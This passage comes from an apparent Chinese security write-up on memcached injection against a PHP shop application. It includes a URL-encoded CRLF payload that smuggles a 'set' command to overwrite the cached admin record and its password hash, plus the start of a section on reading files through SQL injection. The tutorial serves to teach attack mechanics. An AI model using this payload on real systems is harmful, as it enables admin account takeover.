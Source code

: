 我们新建一个 admin 账户的值在进行一下查询：

[![](assets/1708920194-8bc1708c3d4209d319b06ac8b700c764.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111728-bfa8e8c4-cbb0-1.png)

```plain
get think:shop.admin|admin
VALUE think:shop.admin|admin 4 83
a:1:{i:0;a:3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:5:"admin";}}
END
```

memcached 本身是没有数据类型的，只有 key-value 的概念，存放的都是字符串，但是 PHP 编程语言给它给予了数据类型的概念（当 flags 为 0 为字符串，当 flags4 为数组）,所以我们在注入的时候也要设置 flags 为 4 的值进行注入：

```plain
admin
set think:shop.admin|admin 4 900 101
a:3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:32:"21232f297a57a5a743894a0e4a801fc3";}

admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20900%20101%0D%0Aa%3A3%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%2221232f297a57a5a743894a0e4a801fc3%22%3B%7D
```

可以看到已经在缓存中有了结果：

[![](assets/1708920194-4f676b4ac72e180c7a26ac30b10cacf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111738-c5dc486c-cbb0-1.png)

### SQL 注入读文件：

```plain
show variables like "%secure_file%";
```
